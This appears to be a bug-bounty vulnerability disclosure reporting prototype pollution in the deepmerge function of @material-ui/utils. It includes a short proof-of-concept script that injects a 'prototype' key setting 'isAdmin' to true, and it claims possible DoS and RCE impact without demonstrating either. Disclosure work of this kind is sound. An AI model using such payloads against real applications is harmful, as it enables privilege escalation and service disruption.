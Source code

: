 ## Description
material-ui package is vulnerable to prototype pollution issue 
file can be found in  https://github.com/mui-org/material-ui/blob/next/packages/material-ui-utils/src/deepmerge.ts
## Proof of Concept 
1. Creating poc file namely poc.js
```js
var utils = require('@material-ui/utils');
var src = {};
let object = utils.deepmerge({}, JSON.parse('{ "myProperty": "a", "prototype" : { "isAdmin" : true } }'), {
    clone: false,
});
console.log(object.prototype.isAdmin);
```
2. Execute command in terminal  npm install @material-ui/utils
3. Execute command in terminal  node poc.js
[POC] https://drive.google.com/file/d/1twz_btDed0aeQVEO8BBAVs4Vg8kWjcxV/view?usp=sharing
## Impact
Prototype pollution which could lead to DOS and RCE
## Checklist
- [x] _Created and populated the README.md and vulnerability.json files_
- [x] _Provided the repository URL and any applicable [permalinks]([https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files](https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files))_
- [x] _Defined all the applicable weaknesses ([CWEs]([https://cwe.mitre.org/](https://cwe.mitre.org/)))_
- [x] _Proposed the CVSS vector items i.e. User Interaction, Attack Complexity_
- [x] _Checked that the vulnerability affects the latest version of the package released_
- [x] _Checked that a fix does not currently exist that remediates this vulnerability_
- [x] _Complied with all applicable laws_


